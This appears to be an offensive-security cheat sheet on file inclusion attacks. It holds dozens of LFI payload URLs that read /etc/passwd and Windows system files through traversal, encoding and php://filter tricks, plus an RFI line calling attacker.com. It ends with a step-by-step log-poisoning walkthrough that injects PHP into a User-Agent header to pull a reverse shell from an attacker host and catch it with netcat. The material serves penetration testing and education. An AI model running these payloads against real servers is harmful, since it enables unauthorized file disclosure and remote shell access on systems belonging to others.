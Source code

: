 ```yaml
---
title: File Inclusion Examples
desc: Examples of Local File Inclusion (LFI) and Remote File Inclusion (RFI).
tags: [ReverseShell, Web]
alts: []
website:
render_with_liquid: false
---
```


## Local File Inclusion (LFI)

```html
https://vulnerable.com/index.php?page=/etc/passwd
https://vulnerable.com/index.php?page=../../../../etc/passwd
https://vulnerable.com/index.php?page=../../../../../../../../../../../../../../etc/passwd
https://vulnerable.com/index.php?page=..%5c..%5c..%5c..%5cetc/passwd
https://vulnerable.com/index.php?page=..%252f..%252f..%252f..%252fetc/passwd
https://vulnerable.com/index.php?page=/etc/passwd%00
https://vulnerable.com/index.php?page=/etc/passwd%00.inc
https://vulnerable.com/index.php?page=/etc/passwd%00.php
https://vulnerable.com/index.php?page=http://localhost/index
https://vulnerable.com/index.php?page=http:%5c%5cindex
https://vulnerable.com/index.php?page=http:%252f%252findex
https://vulnerable.com/index.php?page=somedir/../../../../etc/passwd&ext=
https://vulnerable.com/index.php?page=php://filter/read=string.rot13/resource=index.php
https://vulnerable.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
https://vulnerable.com/index.php?page=pHp://filter/convert.base64-encode/resource=index.php
https://vulnerable.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
https://vulnerable.com/index.php?page=data://text/plain,<?php echo base64_encode(file_get_contents(“index.php”)); ?>

<!-- Windows -->
https://vulnerable.com/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts
```

<br />

## Remote File Inclusion (RFI)

```html
https//vulnerable.com/index.php?page=//attacker.com/exploit
```

<br />

## Log Poisoning

### 1. Check if you can get the apache logs.

```sh
https://vulnerable.com/index.php?page=../../../../var/log/apache2/access.log
```

### 2. Prepare the payload for PHP reverse shell.

```sh
# Download the Payload for the PHP Reverse Shell
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php -O shell.php

# Edit some variables in shell.php...
$ip = '<attacker-ip>';
$port = 4444;

# Open Server in Attacker Machine
python -m http.server 80
```

### 3. Inject PHP code in the User-Agent (Uploads the PHP file for reverse shell from the attacker’s machine).

```sh
GET / HTTP/1.1
...
User-Agent: <?php file_put_contents('shell.php', file_get_contents('http://<attacker-ip>/shell.php'));  ?>
```

### 4. To apply the code injection, refresh to https://vulnerable.com/index.php/?page=../../../../var/log/apache2/access.log.

### 5. Listen for Reverse Shell in the attacker machine.

```sh
nc -lvnp 4444
```

### 6. Access to https://vulnerable.com/shell.php